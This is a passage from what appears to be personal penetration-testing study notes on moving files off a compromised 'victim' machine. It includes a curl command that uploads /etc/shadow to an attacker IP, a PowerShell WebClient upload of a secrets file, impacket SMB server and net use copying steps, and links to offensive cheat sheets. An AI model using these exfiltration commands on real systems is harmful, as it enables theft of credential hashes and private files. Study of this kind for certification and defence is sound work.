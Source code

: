>If the upload isn't working, but the command is completing successfully, the _upload_max_filesize_ setting in **`/etc/php/<version>/apache2/php.ini`** may need to be increased.

### on remote machine victim

###### linux

```bash
curl --form "uploadedfile=@/etc/shadow" http://192.168.48.3/upload.php
```

###### windows

```powershell
powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.48.3/uploadWindows.php', '.\Secrets.jpg')
```

## smb

found [here](https://www.reddit.com/r/oscp/comments/13l244t/best_ways_to_transfer_files_from_windows_to_kali/):
 
start smb server on your kali VM in directory you want to put file: 
```bash
impacket-smbserver share . -smb2support -username user -password password
```

On the Windows machine, openPowerShell as administrator and run: 
```cmd
net use X: \\192.168.45.179\share /u:user password
cp * x:\ -Recurse
```

drive should show up in file explorer as `X:` or whatever letter you assigned in the powershell command

when done, disconnect:
```cmd
net use x: /delete
```
#### ***alternate*** RDP (untested)

2. open Run and enter: `\\<Kali VM IP address>\<chosen SMB drive name>`

once you have the drive showing up in windows, you can just drag and drop the file(s)


# cheat sheets

https://github.com/swisskyrepo/PayloadsAllTheThings

[the Runbook](https://medium.com/@Fanicia/oscp-prep-introducing-my-runbooks-enumeration-46d7ce270033)

## craig's recs

https://www.thehacker.recipes/
https://ppn.snovvcrash.rocks/
https://rmusser.net/docs/#/
https://lolbas-project.github.io/#
https://wadcoms.github.io/#
https://filesec.io/
https://gtfobins.github.io/
https://github.com/gquere/pwn_jenkins